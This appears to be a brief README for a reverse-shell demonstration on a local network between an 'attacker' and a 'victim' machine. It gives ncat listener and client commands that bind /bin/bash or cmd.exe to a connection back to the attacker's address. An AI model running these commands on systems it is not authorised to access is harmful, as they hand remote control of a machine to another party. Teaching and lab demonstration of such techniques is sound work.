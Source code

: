 ## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer).
## *Can be done on a remote target but local targets are faster for a demo, result is identical*

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>`


### 3) Connect client to server:
For Linux/Bash:

Run `ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:

Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
